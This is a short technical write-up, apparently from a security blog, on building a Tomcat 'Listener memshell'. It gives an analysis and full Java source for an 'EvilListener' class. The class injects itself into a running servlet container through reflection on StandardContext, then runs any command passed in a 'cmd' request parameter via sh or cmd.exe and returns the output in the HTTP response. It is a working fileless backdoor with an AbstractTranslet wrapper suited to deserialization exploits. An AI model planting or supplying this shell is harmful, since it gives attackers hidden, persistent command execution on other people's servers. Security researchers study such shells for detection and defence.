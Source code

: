 # Listener memshell

## Analysis

The `ServletRequestListener` interface can realize the monitoring of the `Request` object creation and destruction. Therefore, it's suitable to be used as a memory shell.

The `Listener` is added by calling the `addApplicationEventListener()` method of the `StandardContext` class dynamically.

In addition, we must achieve the `requestInitialized()` method and the `requestDestroyed()` method, and write malicious code in the `requestDestroyed()` method. The `Request` and `Response` objects can be obtained from the `ServletRequestEvent` class.

## Code

    public class EvilListener extends AbstractTranslet implements ServletRequestListener {
        static {
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            try {
                Field field = webappClassLoaderBase.getClass().getSuperclass().getDeclaredField("resources");
                field.setAccessible(true);
                WebResourceRoot resources = (WebResourceRoot) field.get(webappClassLoaderBase);
                StandardContext standardContext = (StandardContext) resources.getContext();

                EvilListener listener = new EvilListener();
                standardContext.addApplicationEventListener(listener);

                System.out.println("Inject success");
            } catch (NoSuchFieldException | IllegalAccessException e) {
                e.printStackTrace();
            }
        }

        @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
        }

        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
        }

        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
    //        ServletRequestListener.super.requestDestroyed(sre);
            System.out.println("Evil requestDestroyed");
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            try {
                Field field = req.getClass().getDeclaredField("request");
                field.setAccessible(true);
                Request request = (Request) field.get(req);
                Response response = request.getResponse();

                if (req.getParameter("cmd") != null) {
                    String cmd = req.getParameter("cmd");
                    boolean isLinux = true;
                    String osTyp = System.getProperty("os.name");
                    if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                        isLinux = false;
                    }
                    String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                    InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                    Scanner s = new Scanner(in).useDelimiter("\\a");
                    String output = s.hasNext() ? s.next() : "";
                    PrintWriter out = response.getWriter();
                    out.println(output);
                    out.flush();
                    out.close();
                }
            } catch (NoSuchFieldException | IOException | IllegalAccessException e) {
                e.printStackTrace();
            }
        }

        @Override
        public void requestInitialized(ServletRequestEvent sre) {
        }
    }
